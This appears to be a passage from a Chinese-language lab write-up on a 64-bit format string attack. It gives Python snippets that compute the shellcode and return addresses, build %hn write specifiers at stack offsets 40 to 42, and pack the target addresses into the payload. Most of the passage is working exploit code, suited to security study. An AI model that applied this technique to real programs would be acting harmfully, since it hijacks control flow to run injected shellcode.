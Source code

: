   ```python
  shell_code_addr = buf_addr + 1500 - len(shellcode) # shellcode起始地址
  print('%#x'%shell_code_addr)
  ```

  ![image-20220430154413985](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220430154413985.png)

- `myprintf`的return address$=ebp+8=0x00007fffffffe318$

  ```python
  ebp_addr = 0x00007fffffffe310	# myprintf ebp的地址
  ret_addr = ebp_addr + 0x8 # myprint return address
  ```

- 目标是把`0x00007fffffffe318`改成`0x00007fffffffe907`，同样通过`%hn`2字节一改：

  - 按照从小到大的顺序改，0x7fff→0xe907→0xffff（方便起见，就不用溢出了）

    ```python
    s1 = 0xe907  # shell_code_addr 0-16位
    s1_addr = ret_addr
    s2 = 0xffff  # 16-32位
    s2_addr=ret_addr+0x2
    s3 = 0x7fff  # 32-48位
    s3_addr=ret_addr+0x4
    # 最高16位全0
    ```
    
    format string：（中间的00表示还未确定，`%x$hn`可以指定栈上的第几个偏移量）
    
    ```python
    s = "%." + str(0x7fff) + "x" + "%00$hn" + "%." + str(0xe907-0x7fff) + "x" + "%00$hn" + "%." + str(0xffff-0xe907) + "x" + "%00$hn"
    ```
  
    - 为了避免地址中的`\0`影响format string的解析，把地址放在format string后面。之前已经得出`buf[]`的offset是34，所以地址的偏移应该是两位数，先用00占位子打印出`fmt`的长度为41bytes。
  
      ```python
      fmt = (s).encode('latin-1')
      print("fmt:"+str(len(fmt)))
      ```
  
      ![image-20220430162148326](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220430162148326.png)
  
      $\lceil 41/8\rceil=6$，所以地址分别放在40(34+6)、41、42个参数的位置。format string：
  
      ```python
      s = "%." + str(0x7fff) + "x" + "%40$hn" + "%." + str(0xe907-0x7fff) + "x" + "%41$hn" + "%." + str(0xffff-0xe907) + "x" + "%42$hn"
      ```
  
  
    - format string后面加上需要被改变的2字节值的地址，这里`content[48:56]`对应的就是栈上第40个偏移的位置。
  
      ```python
      content[48:56] = (s3_addr).to_bytes(8, byteorder='little')	# 6*8=48，所以从第48字节开始填起
      content[56:64] = (s1_addr).to_bytes(8, byteorder='little')
      content[64:72] = (s2_addr).to_bytes(8, byteorder='little')
      ```
  